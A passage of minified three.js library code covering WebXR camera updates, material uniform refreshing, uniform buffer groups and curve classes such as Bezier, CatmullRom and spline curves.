I(t,e){null===e?t.matrixWorld.copy(t.matrix):t.matrixWorld.multiplyMatrices(e.matrixWorld,t.matrix),t.matrixWorldInverse.copy(t.matrixWorld).invert()}this.updateCamera=function(t){if(null===i)return;let e=t.near,n=t.far;null!==f.texture&&(f.depthNear>0&&(e=f.depthNear),f.depthFar>0&&(n=f.depthFar)),w.near=S.near=M.near=e,w.far=S.far=M.far=n,T===w.near&&A===w.far||(i.updateRenderState({depthNear:w.near,depthFar:w.far}),T=w.near,A=w.far);const r=t.parent,a=w.cameras;I(w,r);for(let t=0;t<a.length;t++)I(a[t],r);2===a.length?function(t,e,n){L.setFromMatrixPosition(e.matrixWorld),D.setFromMatrixPosition(n.matrixWorld);const i=L.distanceTo(D),r=e.projectionMatrix.elements,a=n.projectionMatrix.elements,o=r[14]/(r[10]-1),s=r[14]/(r[10]+1),l=(r[9]+1)/r[5],c=(r[9]-1)/r[5],h=(r[8]-1)/r[0],u=(a[8]+1)/a[0],d=o*h,p=o*u,f=i/(-h+u),m=f*-h;if(e.matrixWorld.decompose(t.position,t.quaternion,t.scale),t.translateX(m),t.translateZ(f),t.matrixWorld.compose(t.position,t.quaternion,t.scale),t.matrixWorldInverse.copy(t.matrixWorld).invert(),-1===r[10])t.projectionMatrix.copy(e.projectionMatrix),t.projectionMatrixInverse.copy(e.projectionMatrixInverse);else{const e=o+f,n=s+f,r=d-m,a=p+(i-m),h=l*s/n*e,u=c*s/n*e;t.projectionMatrix.makePerspective(r,a,h,u,e,n),t.projectionMatrixInverse.copy(t.projectionMatrix).invert()}}(w,M,S):w.projectionMatrix.copy(M.projectionMatrix),function(t,e,n){null===n?t.matrix.copy(e.matrixWorld):(t.matrix.copy(n.matrixWorld),t.matrix.invert(),t.matrix.multiply(e.matrixWorld));t.matrix.decompose(t.position,t.quaternion,t.scale),t.updateMatrixWorld(!0),t.projectionMatrix.copy(e.projectionMatrix),t.projectionMatrixInverse.copy(e.projectionMatrixInverse),t.isPerspectiveCamera&&(t.fov=2*he*Math.atan(1/t.projectionMatrix.elements[5]),t.zoom=1)}(t,w,r)},this.getCamera=function(){return w},this.getFoveation=function(){if(null!==u||null!==d)return s},this.setFoveation=function(t){s=t,null!==u&&(u.fixedFoveation=t),null!==d&&void 0!==d.fixedFoveation&&(d.fixedFoveation=t)},this.hasDepthSensing=function(){return null!==f.texture},this.getDepthSensingMesh=function(){return f.getMesh(w)};let O=null;const U=new vr;U.setAnimationLoop((function(e,r){if(c=r.getViewerPose(l||a),p=r,null!==c){const e=c.views;null!==d&&(t.setRenderTargetFramebuffer(_,d.framebuffer),t.setRenderTarget(_));let n=!1;e.length!==w.cameras.length&&(w.cameras.length=0,n=!0);for(let i=0;i<e.length;i++){const r=e[i];let a=null;if(null!==d)a=d.getViewport(r);else{const e=h.getViewSubImage(u,r);a=e.viewport,0===i&&(t.setRenderTargetTextures(_,e.colorTexture,u.ignoreDepthValues?void 0:e.depthStencilTexture),t.setRenderTarget(_))}let o=E[i];void 0===o&&(o=new or,o.layers.enable(i),o.viewport=new Be,E[i]=o),o.matrix.fromArray(r.transform.matrix),o.matrix.decompose(o.position,o.quaternion,o.scale),o.projectionMatrix.fromArray(r.projectionMatrix),o.projectionMatrixInverse.copy(o.projectionMatrix).invert(),o.viewport.set(a.x,a.y,a.width,a.height),0===i&&(w.matrix.copy(o.matrix),w.matrix.decompose(w.position,w.quaternion,w.scale)),!0===n&&w.cameras.push(o)}const r=i.enabledFeatures;if(r&&r.includes(\"depth-sensing\")){const n=h.getDepthInformation(e[0]);n&&n.isValid&&n.texture&&f.init(t,n,i.renderState)}}for(let t=0;t<v.length;t++){const e=y[t],n=v[t];null!==e&&void 0!==n&&n.update(e,r,l||a)}O&&O(e,r),r.detectedPlanes&&n.dispatchEvent({type:\"planesdetected\",data:r}),p=null})),this.setAnimationLoop=function(t){O=t},this.dispose=function(){}}}const rs=new In,as=new Sn;function os(t,e){function n(t,e){!0===t.matrixAutoUpdate&&t.updateMatrix(),e.value.copy(t.matrix)}function i(t,i){t.opacity.value=i.opacity,i.color&&t.diffuse.value.copy(i.color),i.emissive&&t.emissive.value.copy(i.emissive).multiplyScalar(i.emissiveIntensity),i.map&&(t.map.value=i.map,n(i.map,t.mapTransform)),i.alphaMap&&(t.alphaMap.value=i.alphaMap,n(i.alphaMap,t.alphaMapTransform)),i.bumpMap&&(t.bumpMap.value=i.bumpMap,n(i.bumpMap,t.bumpMapTransform),t.bumpScale.value=i.bumpScale,1===i.side&&(t.bumpScale.value*=-1)),i.normalMap&&(t.normalMap.value=i.normalMap,n(i.normalMap,t.normalMapTransform),t.normalScale.value.copy(i.normalScale),1===i.side&&t.normalScale.value.negate()),i.displacementMap&&(t.displacementMap.value=i.displacementMap,n(i.displacementMap,t.displacementMapTransform),t.displacementScale.value=i.displacementScale,t.displacementBias.value=i.displacementBias),i.emissiveMap&&(t.emissiveMap.value=i.emissiveMap,n(i.emissiveMap,t.emissiveMapTransform)),i.specularMap&&(t.specularMap.value=i.specularMap,n(i.specularMap,t.specularMapTransform)),i.alphaTest>0&&(t.alphaTest.value=i.alphaTest);const r=e.get(i),a=r.envMap,o=r.envMapRotation;a&&(t.envMap.value=a,rs.copy(o),rs.x*=-1,rs.y*=-1,rs.z*=-1,a.isCubeTexture&&!1===a.isRenderTargetTexture&&(rs.y*=-1,rs.z*=-1),t.envMapRotation.value.setFromMatrix4(as.makeRotationFromEuler(rs)),t.flipEnvMap.value=a.isCubeTexture&&!1===a.isRenderTargetTexture?-1:1,t.reflectivity.value=i.reflectivity,t.ior.value=i.ior,t.refractionRatio.value=i.refractionRatio),i.lightMap&&(t.lightMap.value=i.lightMap,t.lightMapIntensity.value=i.lightMapIntensity,n(i.lightMap,t.lightMapTransform)),i.aoMap&&(t.aoMap.value=i.aoMap,t.aoMapIntensity.value=i.aoMapIntensity,n(i.aoMap,t.aoMapTransform))}return{refreshFogUniforms:function(e,n){n.color.getRGB(e.fogColor.value,Qi(t)),n.isFog?(e.fogNear.value=n.near,e.fogFar.value=n.far):n.isFogExp2&&(e.fogDensity.value=n.density)},refreshMaterialUniforms:function(t,r,a,o,s){r.isMeshBasicMaterial||r.isMeshLambertMaterial?i(t,r):r.isMeshToonMaterial?(i(t,r),function(t,e){e.gradientMap&&(t.gradientMap.value=e.gradientMap)}(t,r)):r.isMeshPhongMaterial?(i(t,r),function(t,e){t.specular.value.copy(e.specular),t.shininess.value=Math.max(e.shininess,1e-4)}(t,r)):r.isMeshStandardMaterial?(i(t,r),function(t,e){t.metalness.value=e.metalness,e.metalnessMap&&(t.metalnessMap.value=e.metalnessMap,n(e.metalnessMap,t.metalnessMapTransform));t.roughness.value=e.roughness,e.roughnessMap&&(t.roughnessMap.value=e.roughnessMap,n(e.roughnessMap,t.roughnessMapTransform));e.envMap&&(t.envMapIntensity.value=e.envMapIntensity)}(t,r),r.isMeshPhysicalMaterial&&function(t,e,i){t.ior.value=e.ior,e.sheen>0&&(t.sheenColor.value.copy(e.sheenColor).multiplyScalar(e.sheen),t.sheenRoughness.value=e.sheenRoughness,e.sheenColorMap&&(t.sheenColorMap.value=e.sheenColorMap,n(e.sheenColorMap,t.sheenColorMapTransform)),e.sheenRoughnessMap&&(t.sheenRoughnessMap.value=e.sheenRoughnessMap,n(e.sheenRoughnessMap,t.sheenRoughnessMapTransform)));e.clearcoat>0&&(t.clearcoat.value=e.clearcoat,t.clearcoatRoughness.value=e.clearcoatRoughness,e.clearcoatMap&&(t.clearcoatMap.value=e.clearcoatMap,n(e.clearcoatMap,t.clearcoatMapTransform)),e.clearcoatRoughnessMap&&(t.clearcoatRoughnessMap.value=e.clearcoatRoughnessMap,n(e.clearcoatRoughnessMap,t.clearcoatRoughnessMapTransform)),e.clearcoatNormalMap&&(t.clearcoatNormalMap.value=e.clearcoatNormalMap,n(e.clearcoatNormalMap,t.clearcoatNormalMapTransform),t.clearcoatNormalScale.value.copy(e.clearcoatNormalScale),1===e.side&&t.clearcoatNormalScale.value.negate()));e.dispersion>0&&(t.dispersion.value=e.dispersion);e.iridescence>0&&(t.iridescence.value=e.iridescence,t.iridescenceIOR.value=e.iridescenceIOR,t.iridescenceThicknessMinimum.value=e.iridescenceThicknessRange[0],t.iridescenceThicknessMaximum.value=e.iridescenceThicknessRange[1],e.iridescenceMap&&(t.iridescenceMap.value=e.iridescenceMap,n(e.iridescenceMap,t.iridescenceMapTransform)),e.iridescenceThicknessMap&&(t.iridescenceThicknessMap.value=e.iridescenceThicknessMap,n(e.iridescenceThicknessMap,t.iridescenceThicknessMapTransform)));e.transmission>0&&(t.transmission.value=e.transmission,t.transmissionSamplerMap.value=i.texture,t.transmissionSamplerSize.value.set(i.width,i.height),e.transmissionMap&&(t.transmissionMap.value=e.transmissionMap,n(e.transmissionMap,t.transmissionMapTransform)),t.thickness.value=e.thickness,e.thicknessMap&&(t.thicknessMap.value=e.thicknessMap,n(e.thicknessMap,t.thicknessMapTransform)),t.attenuationDistance.value=e.attenuationDistance,t.attenuationColor.value.copy(e.attenuationColor));e.anisotropy>0&&(t.anisotropyVector.value.set(e.anisotropy*Math.cos(e.anisotropyRotation),e.anisotropy*Math.sin(e.anisotropyRotation)),e.anisotropyMap&&(t.anisotropyMap.value=e.anisotropyMap,n(e.anisotropyMap,t.anisotropyMapTransform)));t.specularIntensity.value=e.specularIntensity,t.specularColor.value.copy(e.specularColor),e.specularColorMap&&(t.specularColorMap.value=e.specularColorMap,n(e.specularColorMap,t.specularColorMapTransform));e.specularIntensityMap&&(t.specularIntensityMap.value=e.specularIntensityMap,n(e.specularIntensityMap,t.specularIntensityMapTransform))}(t,r,s)):r.isMeshMatcapMaterial?(i(t,r),function(t,e){e.matcap&&(t.matcap.value=e.matcap)}(t,r)):r.isMeshDepthMaterial?i(t,r):r.isMeshDistanceMaterial?(i(t,r),function(t,n){const i=e.get(n).light;t.referencePosition.value.setFromMatrixPosition(i.matrixWorld),t.nearDistance.value=i.shadow.camera.near,t.farDistance.value=i.shadow.camera.far}(t,r)):r.isMeshNormalMaterial?i(t,r):r.isLineBasicMaterial?(function(t,e){t.diffuse.value.copy(e.color),t.opacity.value=e.opacity,e.map&&(t.map.value=e.map,n(e.map,t.mapTransform))}(t,r),r.isLineDashedMaterial&&function(t,e){t.dashSize.value=e.dashSize,t.totalSize.value=e.dashSize+e.gapSize,t.scale.value=e.scale}(t,r)):r.isPointsMaterial?function(t,e,i,r){t.diffuse.value.copy(e.color),t.opacity.value=e.opacity,t.size.value=e.size*i,t.scale.value=.5*r,e.map&&(t.map.value=e.map,n(e.map,t.uvTransform));e.alphaMap&&(t.alphaMap.value=e.alphaMap,n(e.alphaMap,t.alphaMapTransform));e.alphaTest>0&&(t.alphaTest.value=e.alphaTest)}(t,r,a,o):r.isSpriteMaterial?function(t,e){t.diffuse.value.copy(e.color),t.opacity.value=e.opacity,t.rotation.value=e.rotation,e.map&&(t.map.value=e.map,n(e.map,t.mapTransform));e.alphaMap&&(t.alphaMap.value=e.alphaMap,n(e.alphaMap,t.alphaMapTransform));e.alphaTest>0&&(t.alphaTest.value=e.alphaTest)}(t,r):r.isShadowMaterial?(t.color.value.copy(r.color),t.opacity.value=r.opacity):r.isShaderMaterial&&(r.uniformsNeedUpdate=!1)}}}function ss(t,e,n,i){let r={},a={},o=[];const s=t.getParameter(t.MAX_UNIFORM_BUFFER_BINDINGS);function l(t,e,n,i){const r=t.value,a=e+\"_\"+n;if(void 0===i[a])return i[a]=\"number\"==typeof r||\"boolean\"==typeof r?r:r.clone(),!0;{const t=i[a];if(\"number\"==typeof r||\"boolean\"==typeof r){if(t!==r)return i[a]=r,!0}else if(!1===t.equals(r))return t.copy(r),!0}return!1}function c(t){const e={boundary:0,storage:0};return\"number\"==typeof t||\"boolean\"==typeof t?(e.boundary=4,e.storage=4):t.isVector2?(e.boundary=8,e.storage=8):t.isVector3||t.isColor?(e.boundary=16,e.storage=12):t.isVector4?(e.boundary=16,e.storage=16):t.isMatrix3?(e.boundary=48,e.storage=48):t.isMatrix4?(e.boundary=64,e.storage=64):t.isTexture?console.warn(\"THREE.WebGLRenderer: Texture samplers can not be part of an uniforms group.\"):console.warn(\"THREE.WebGLRenderer: Unsupported uniform value type.\",t),e}function h(e){const n=e.target;n.removeEventListener(\"dispose\",h);const i=o.indexOf(n.__bindingPointIndex);o.splice(i,1),t.deleteBuffer(r[n.id]),delete r[n.id],delete a[n.id]}return{bind:function(t,e){const n=e.program;i.uniformBlockBinding(t,n)},update:function(n,u){let d=r[n.id];void 0===d&&(!function(t){const e=t.uniforms;let n=0;const i=16;for(let t=0,r=e.length;t<r;t++){const r=Array.isArray(e[t])?e[t]:[e[t]];for(let t=0,e=r.length;t<e;t++){const e=r[t],a=Array.isArray(e.value)?e.value:[e.value];for(let t=0,r=a.length;t<r;t++){const r=c(a[t]),o=n%i,s=o%r.boundary,l=o+s;n+=s,0!==l&&i-l<r.storage&&(n+=i-l),e.__data=new Float32Array(r.storage/Float32Array.BYTES_PER_ELEMENT),e.__offset=n,n+=r.storage}}}const r=n%i;r>0&&(n+=i-r);t.__size=n,t.__cache={}}(n),d=function(e){const n=function(){for(let t=0;t<s;t++)if(-1===o.indexOf(t))return o.push(t),t;return console.error(\"THREE.WebGLRenderer: Maximum number of simultaneously usable uniforms groups reached.\"),0}();e.__bindingPointIndex=n;const i=t.createBuffer(),r=e.__size,a=e.usage;return t.bindBuffer(t.UNIFORM_BUFFER,i),t.bufferData(t.UNIFORM_BUFFER,r,a),t.bindBuffer(t.UNIFORM_BUFFER,null),t.bindBufferBase(t.UNIFORM_BUFFER,n,i),i}(n),r[n.id]=d,n.addEventListener(\"dispose\",h));const p=u.program;i.updateUBOMapping(n,p);const f=e.render.frame;a[n.id]!==f&&(!function(e){const n=r[e.id],i=e.uniforms,a=e.__cache;t.bindBuffer(t.UNIFORM_BUFFER,n);for(let e=0,n=i.length;e<n;e++){const n=Array.isArray(i[e])?i[e]:[i[e]];for(let i=0,r=n.length;i<r;i++){const r=n[i];if(!0===l(r,e,i,a)){const e=r.__offset,n=Array.isArray(r.value)?r.value:[r.value];let i=0;for(let a=0;a<n.length;a++){const o=n[a],s=c(o);\"number\"==typeof o||\"boolean\"==typeof o?(r.__data[0]=o,t.bufferSubData(t.UNIFORM_BUFFER,e+i,r.__data)):o.isMatrix3?(r.__data[0]=o.elements[0],r.__data[1]=o.elements[1],r.__data[2]=o.elements[2],r.__data[3]=0,r.__data[4]=o.elements[3],r.__data[5]=o.elements[4],r.__data[6]=o.elements[5],r.__data[7]=0,r.__data[8]=o.elements[6],r.__data[9]=o.elements[7],r.__data[10]=o.elements[8],r.__data[11]=0):(o.toArray(r.__data,i),i+=s.storage/Float32Array.BYTES_PER_ELEMENT)}t.bufferSubData(t.UNIFORM_BUFFER,e,r.__data)}}}t.bindBuffer(t.UNIFORM_BUFFER,null)}(n),a[n.id]=f)},dispose:function(){for(const e in r)t.deleteBuffer(r[e]);o=[],r={},a={}}}}class ls extends mi{constructor(t){super(),this.isLineBasicMaterial=!0,this.type=\"LineBasicMaterial\",this.color=new di(16777215),this.map=null,this.linewidth=1,this.linecap=\"round\",this.linejoin=\"round\",this.fog=!0,this.setValues(t)}copy(t){return super.copy(t),this.color.copy(t.color),this.map=t.map,this.linewidth=t.linewidth,this.linecap=t.linecap,this.linejoin=t.linejoin,this.fog=t.fog,this}}const cs=new Xe,hs=new Xe,us=new Sn,ds=new Mn,ps=new fn,fs=new Xe,ms=new Xe;function gs(t,e,n,i,r,a){const o=t.geometry.attributes.position;cs.fromBufferAttribute(o,r),hs.fromBufferAttribute(o,a);if(n.distanceSqToSegment(cs,hs,fs,ms)>i)return;fs.applyMatrix4(t.matrixWorld);const s=e.ray.origin.distanceTo(fs);return s<e.near||s>e.far?void 0:{distance:s,point:ms.clone().applyMatrix4(t.matrixWorld),index:r,face:null,faceIndex:null,object:t}}class _s{constructor(){this.type=\"Curve\",this.arcLengthDivisions=200}getPoint(){return console.warn(\"THREE.Curve: .getPoint() not implemented.\"),null}getPointAt(t,e){const n=this.getUtoTmapping(t);return this.getPoint(n,e)}getPoints(t=5){const e=[];for(let n=0;n<=t;n++)e.push(this.getPoint(n/t));return e}getSpacedPoints(t=5){const e=[];for(let n=0;n<=t;n++)e.push(this.getPointAt(n/t));return e}getLength(){const t=this.getLengths();return t[t.length-1]}getLengths(t=this.arcLengthDivisions){if(this.cacheArcLengths&&this.cacheArcLengths.length===t+1&&!this.needsUpdate)return this.cacheArcLengths;this.needsUpdate=!1;const e=[];let n,i=this.getPoint(0),r=0;e.push(0);for(let a=1;a<=t;a++)n=this.getPoint(a/t),r+=n.distanceTo(i),e.push(r),i=n;return this.cacheArcLengths=e,e}updateArcLengths(){this.needsUpdate=!0,this.getLengths()}getUtoTmapping(t,e){const n=this.getLengths();let i=0;const r=n.length;let a;a=e||t*n[r-1];let o,s=0,l=r-1;for(;s<=l;)if(i=Math.floor(s+(l-s)/2),o=n[i]-a,o<0)s=i+1;else{if(!(o>0)){l=i;break}l=i-1}if(i=l,n[i]===a)return i/(r-1);const c=n[i];return(i+(a-c)/(n[i+1]-c))/(r-1)}getTangent(t,e){const n=1e-4;let i=t-n,r=t+n;i<0&&(i=0),r>1&&(r=1);const a=this.getPoint(i),o=this.getPoint(r),s=e||(a.isVector2?new ve:new Xe);return s.copy(o).sub(a).normalize(),s}getTangentAt(t,e){const n=this.getUtoTmapping(t);return this.getTangent(n,e)}computeFrenetFrames(t,e){const n=new Xe,i=[],r=[],a=[],o=new Xe,s=new Sn;for(let e=0;e<=t;e++){const n=e/t;i[e]=this.getTangentAt(n,new Xe)}r[0]=new Xe,a[0]=new Xe;let l=Number.MAX_VALUE;const c=Math.abs(i[0].x),h=Math.abs(i[0].y),u=Math.abs(i[0].z);c<=l&&(l=c,n.set(1,0,0)),h<=l&&(l=h,n.set(0,1,0)),u<=l&&n.set(0,0,1),o.crossVectors(i[0],n).normalize(),r[0].crossVectors(i[0],o),a[0].crossVectors(i[0],r[0]);for(let e=1;e<=t;e++){if(r[e]=r[e-1].clone(),a[e]=a[e-1].clone(),o.crossVectors(i[e-1],i[e]),o.length()>Number.EPSILON){o.normalize();const t=Math.acos(de(i[e-1].dot(i[e]),-1,1));r[e].applyMatrix4(s.makeRotationAxis(o,t))}a[e].crossVectors(i[e],r[e])}if(!0===e){let e=Math.acos(de(r[0].dot(r[t]),-1,1));e/=t,i[0].dot(o.crossVectors(r[0],r[t]))>0&&(e=-e);for(let n=1;n<=t;n++)r[n].applyMatrix4(s.makeRotationAxis(i[n],e*n)),a[n].crossVectors(i[n],r[n])}return{tangents:i,normals:r,binormals:a}}clone(){return(new this.constructor).copy(this)}copy(t){return this.arcLengthDivisions=t.arcLengthDivisions,this}toJSON(){const t={metadata:{version:4.6,type:\"Curve\",generator:\"Curve.toJSON\"}};return t.arcLengthDivisions=this.arcLengthDivisions,t.type=this.type,t}fromJSON(t){return this.arcLengthDivisions=t.arcLengthDivisions,this}}class vs extends _s{constructor(t=0,e=0,n=1,i=1,r=0,a=2*Math.PI,o=!1,s=0){super(),this.isEllipseCurve=!0,this.type=\"EllipseCurve\",this.aX=t,this.aY=e,this.xRadius=n,this.yRadius=i,this.aStartAngle=r,this.aEndAngle=a,this.aClockwise=o,this.aRotation=s}getPoint(t,e=new ve){const n=e,i=2*Math.PI;let r=this.aEndAngle-this.aStartAngle;const a=Math.abs(r)<Number.EPSILON;for(;r<0;)r+=i;for(;r>i;)r-=i;r<Number.EPSILON&&(r=a?0:i),!0!==this.aClockwise||a||(r===i?r=-i:r-=i);const o=this.aStartAngle+t*r;let s=this.aX+this.xRadius*Math.cos(o),l=this.aY+this.yRadius*Math.sin(o);if(0!==this.aRotation){const t=Math.cos(this.aRotation),e=Math.sin(this.aRotation),n=s-this.aX,i=l-this.aY;s=n*t-i*e+this.aX,l=n*e+i*t+this.aY}return n.set(s,l)}copy(t){return super.copy(t),this.aX=t.aX,this.aY=t.aY,this.xRadius=t.xRadius,this.yRadius=t.yRadius,this.aStartAngle=t.aStartAngle,this.aEndAngle=t.aEndAngle,this.aClockwise=t.aClockwise,this.aRotation=t.aRotation,this}toJSON(){const t=super.toJSON();return t.aX=this.aX,t.aY=this.aY,t.xRadius=this.xRadius,t.yRadius=this.yRadius,t.aStartAngle=this.aStartAngle,t.aEndAngle=this.aEndAngle,t.aClockwise=this.aClockwise,t.aRotation=this.aRotation,t}fromJSON(t){return super.fromJSON(t),this.aX=t.aX,this.aY=t.aY,this.xRadius=t.xRadius,this.yRadius=t.yRadius,this.aStartAngle=t.aStartAngle,this.aEndAngle=t.aEndAngle,this.aClockwise=t.aClockwise,this.aRotation=t.aRotation,this}}function ys(){let t=0,e=0,n=0,i=0;function r(r,a,o,s){t=r,e=o,n=-3*r+3*a-2*o-s,i=2*r-2*a+o+s}return{initCatmullRom:function(t,e,n,i,a){r(e,n,a*(n-t),a*(i-e))},initNonuniformCatmullRom:function(t,e,n,i,a,o,s){let l=(e-t)/a-(n-t)/(a+o)+(n-e)/o,c=(n-e)/o-(i-e)/(o+s)+(i-n)/s;l*=o,c*=o,r(e,n,l,c)},calc:function(r){const a=r*r;return t+e*r+n*a+i*(a*r)}}}const xs=new Xe,bs=new ys,Ms=new ys,Ss=new ys;function Es(t,e,n,i,r){const a=.5*(i-e),o=.5*(r-n),s=t*t;return(2*n-2*i+a+o)*(t*s)+(-3*n+3*i-2*a-o)*s+a*t+n}function ws(t,e,n,i){return function(t,e){const n=1-t;return n*n*e}(t,e)+function(t,e){return 2*(1-t)*t*e}(t,n)+function(t,e){return t*t*e}(t,i)}function Ts(t,e,n,i,r){return function(t,e){const n=1-t;return n*n*n*e}(t,e)+function(t,e){const n=1-t;return 3*n*n*t*e}(t,n)+function(t,e){return 3*(1-t)*t*t*e}(t,i)+function(t,e){return t*t*t*e}(t,r)}class As extends _s{constructor(t=new Xe,e=new Xe,n=new Xe,i=new Xe){super(),this.isCubicBezierCurve3=!0,this.type=\"CubicBezierCurve3\",this.v0=t,this.v1=e,this.v2=n,this.v3=i}getPoint(t,e=new Xe){const n=e,i=this.v0,r=this.v1,a=this.v2,o=this.v3;return n.set(Ts(t,i.x,r.x,a.x,o.x),Ts(t,i.y,r.y,a.y,o.y),Ts(t,i.z,r.z,a.z,o.z)),n}copy(t){return super.copy(t),this.v0.copy(t.v0),this.v1.copy(t.v1),this.v2.copy(t.v2),this.v3.copy(t.v3),this}toJSON(){const t=super.toJSON();return t.v0=this.v0.toArray(),t.v1=this.v1.toArray(),t.v2=this.v2.toArray(),t.v3=this.v3.toArray(),t}fromJSON(t){return super.fromJSON(t),this.v0.fromArray(t.v0),this.v1.fromArray(t.v1),this.v2.fromArray(t.v2),this.v3.fromArray(t.v3),this}}class Cs extends _s{constructor(t=new Xe,e=new Xe,n=new Xe){super(),this.isQuadraticBezierCurve3=!0,this.type=\"QuadraticBezierCurve3\",this.v0=t,this.v1=e,this.v2=n}getPoint(t,e=new Xe){const n=e,i=this.v0,r=this.v1,a=this.v2;return n.set(ws(t,i.x,r.x,a.x),ws(t,i.y,r.y,a.y),ws(t,i.z,r.z,a.z)),n}copy(t){return super.copy(t),this.v0.copy(t.v0),this.v1.copy(t.v1),this.v2.copy(t.v2),this}toJSON(){const t=super.toJSON();return t.v0=this.v0.toArray(),t.v1=this.v1.toArray(),t.v2=this.v2.toArray(),t}fromJSON(t){return super.fromJSON(t),this.v0.fromArray(t.v0),this.v1.fromArray(t.v1),this.v2.fromArray(t.v2),this}}var Rs=Object.freeze({__proto__:null,ArcCurve:class extends vs{constructor(t,e,n,i,r,a){super(t,e,n,n,i,r,a),this.isArcCurve=!0,this.type=\"ArcCurve\"}},CatmullRomCurve3:class extends _s{constructor(t=[],e=!1,n=\"centripetal\",i=.5){super(),this.isCatmullRomCurve3=!0,this.type=\"CatmullRomCurve3\",this.points=t,this.closed=e,this.curveType=n,this.tension=i}getPoint(t,e=new Xe){const n=e,i=this.points,r=i.length,a=(r-(this.closed?0:1))*t;let o,s,l=Math.floor(a),c=a-l;this.closed?l+=l>0?0:(Math.floor(Math.abs(l)/r)+1)*r:0===c&&l===r-1&&(l=r-2,c=1),this.closed||l>0?o=i[(l-1)%r]:(xs.subVectors(i[0],i[1]).add(i[0]),o=xs);const h=i[l%r],u=i[(l+1)%r];if(this.closed||l+2<r?s=i[(l+2)%r]:(xs.subVectors(i[r-1],i[r-2]).add(i[r-1]),s=xs),\"centripetal\"===this.curveType||\"chordal\"===this.curveType){const t=\"chordal\"===this.curveType?.5:.25;let e=Math.pow(o.distanceToSquared(h),t),n=Math.pow(h.distanceToSquared(u),t),i=Math.pow(u.distanceToSquared(s),t);n<1e-4&&(n=1),e<1e-4&&(e=n),i<1e-4&&(i=n),bs.initNonuniformCatmullRom(o.x,h.x,u.x,s.x,e,n,i),Ms.initNonuniformCatmullRom(o.y,h.y,u.y,s.y,e,n,i),Ss.initNonuniformCatmullRom(o.z,h.z,u.z,s.z,e,n,i)}else\"catmullrom\"===this.curveType&&(bs.initCatmullRom(o.x,h.x,u.x,s.x,this.tension),Ms.initCatmullRom(o.y,h.y,u.y,s.y,this.tension),Ss.initCatmullRom(o.z,h.z,u.z,s.z,this.tension));return n.set(bs.calc(c),Ms.calc(c),Ss.calc(c)),n}copy(t){super.copy(t),this.points=[];for(let e=0,n=t.points.length;e<n;e++){const n=t.points[e];this.points.push(n.clone())}return this.closed=t.closed,this.curveType=t.curveType,this.tension=t.tension,this}toJSON(){const t=super.toJSON();t.points=[];for(let e=0,n=this.points.length;e<n;e++){const n=this.points[e];t.points.push(n.toArray())}return t.closed=this.closed,t.curveType=this.curveType,t.tension=this.tension,t}fromJSON(t){super.fromJSON(t),this.points=[];for(let e=0,n=t.points.length;e<n;e++){const n=t.points[e];this.points.push((new Xe).fromArray(n))}return this.closed=t.closed,this.curveType=t.curveType,this.tension=t.tension,this}},CubicBezierCurve:class extends _s{constructor(t=new ve,e=new ve,n=new ve,i=new ve){super(),this.isCubicBezierCurve=!0,this.type=\"CubicBezierCurve\",this.v0=t,this.v1=e,this.v2=n,this.v3=i}getPoint(t,e=new ve){const n=e,i=this.v0,r=this.v1,a=this.v2,o=this.v3;return n.set(Ts(t,i.x,r.x,a.x,o.x),Ts(t,i.y,r.y,a.y,o.y)),n}copy(t){return super.copy(t),this.v0.copy(t.v0),this.v1.copy(t.v1),this.v2.copy(t.v2),this.v3.copy(t.v3),this}toJSON(){const t=super.toJSON();return t.v0=this.v0.toArray(),t.v1=this.v1.toArray(),t.v2=this.v2.toArray(),t.v3=this.v3.toArray(),t}fromJSON(t){return super.fromJSON(t),this.v0.fromArray(t.v0),this.v1.fromArray(t.v1),this.v2.fromArray(t.v2),this.v3.fromArray(t.v3),this}},CubicBezierCurve3:As,EllipseCurve:vs,LineCurve:class extends _s{constructor(t=new ve,e=new ve){super(),this.isLineCurve=!0,this.type=\"LineCurve\",this.v1=t,this.v2=e}getPoint(t,e=new ve){const n=e;return 1===t?n.copy(this.v2):(n.copy(this.v2).sub(this.v1),n.multiplyScalar(t).add(this.v1)),n}getPointAt(t,e){return this.getPoint(t,e)}getTangent(t,e=new ve){return e.subVectors(this.v2,this.v1).normalize()}getTangentAt(t,e){return this.getTangent(t,e)}copy(t){return super.copy(t),this.v1.copy(t.v1),this.v2.copy(t.v2),this}toJSON(){const t=super.toJSON();return t.v1=this.v1.toArray(),t.v2=this.v2.toArray(),t}fromJSON(t){return super.fromJSON(t),this.v1.fromArray(t.v1),this.v2.fromArray(t.v2),this}},LineCurve3:class extends _s{constructor(t=new Xe,e=new Xe){super(),this.isLineCurve3=!0,this.type=\"LineCurve3\",this.v1=t,this.v2=e}getPoint(t,e=new Xe){const n=e;return 1===t?n.copy(this.v2):(n.copy(this.v2).sub(this.v1),n.multiplyScalar(t).add(this.v1)),n}getPointAt(t,e){return this.getPoint(t,e)}getTangent(t,e=new Xe){return e.subVectors(this.v2,this.v1).normalize()}getTangentAt(t,e){return this.getTangent(t,e)}copy(t){return super.copy(t),this.v1.copy(t.v1),this.v2.copy(t.v2),this}toJSON(){const t=super.toJSON();return t.v1=this.v1.toArray(),t.v2=this.v2.toArray(),t}fromJSON(t){return super.fromJSON(t),this.v1.fromArray(t.v1),this.v2.fromArray(t.v2),this}},QuadraticBezierCurve:class extends _s{constructor(t=new ve,e=new ve,n=new ve){super(),this.isQuadraticBezierCurve=!0,this.type=\"QuadraticBezierCurve\",this.v0=t,this.v1=e,this.v2=n}getPoint(t,e=new ve){const n=e,i=this.v0,r=this.v1,a=this.v2;return n.set(ws(t,i.x,r.x,a.x),ws(t,i.y,r.y,a.y)),n}copy(t){return super.copy(t),this.v0.copy(t.v0),this.v1.copy(t.v1),this.v2.copy(t.v2),this}toJSON(){const t=super.toJSON();return t.v0=this.v0.toArray(),t.v1=this.v1.toArray(),t.v2=this.v2.toArray(),t}fromJSON(t){return super.fromJSON(t),this.v0.fromArray(t.v0),this.v1.fromArray(t.v1),this.v2.fromArray(t.v2),this}},QuadraticBezierCurve3:Cs,SplineCurve:class extends _s{constructor(t=[]){super(),this.isSplineCurve=!0,this.type=\"SplineCurve\",this.points=t}getPoint(t,e=new ve){const n=e,i=this.points,r=(i.length-1)*t,a=Math.floor(r),o=r-a,s=i[0===a?a:a-1],l=i[a],c=i[a>i.length-2?i.length-1:a+1],h=i[a>i.length-3?i.length-1:a+2];return n.set(Es(o,s.x,l.x,c.x,h.x),Es(o,s.y,l.y,c.y,h.y)),n}copy(t){super.copy(t),this.points=[];for(let e=0,n=t.points.length;e<n;e++){const n=t.points[e];this.points.push(n.clone())}return this}toJSON(){const t=super.toJSON();t.points=[];for(let e=0,n=this.points.length;e<n;e++){const 